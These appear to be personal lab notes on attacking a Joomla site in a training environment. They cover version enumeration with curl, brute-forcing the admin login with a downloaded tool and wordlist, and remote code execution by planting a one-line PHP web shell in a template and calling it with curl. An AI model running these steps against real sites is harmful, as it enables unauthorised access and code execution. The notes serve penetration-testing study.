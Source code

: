 ### Enumeration

Joomla collect anonymous stats:

```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool
```

Verify Joomla is in use:

```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```

Robots.txt:

```bash
curl -s http://dev.inlanefreight.local/robots.txt
```

Verify version:

```bash
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

Probably the best way to get the version:

```bash
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```

Another way:

```bash
curl -s http://dev.inlanefreight.local/language/en-GB/en-GB.xml
```

Automation (Not good at enumerating version):

```bash
sudo pip3 install droopescan
droopescan scan joomla --url http://dev.inlanefreight.local/
```

### Attack

Brute Forcing:

- Admin Portal: `http://dev.inlanefreight.local/administrator/index.php`

- Default username `admin`

Download bruteforcing tool:

```
git clone https://github.com/ajnik/joomla-bruteforce.git
```

Run:

```bash
python3 joomla-brute.py -u http://dev.inlanefreight.local -w /opt/metasploit-framework/embedded/framework/data/wordlists/http_default_pass.txt -usr admin
```

Code Execution:

Once logged in go to `templates`

![[Pasted image 20250131162653.png]]

Select a template:

![[Pasted image 20250131162717.png]]

Pick a php file

![[Pasted image 20250131162758.png]]

Add `system($_GET['cmd']);` into file and `Save & Close:`

![[Pasted image 20250131162848.png]]

Use CURL for RCE:

```bash
curl -s http://app.inlanefreight.local/templates/protostar/error.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


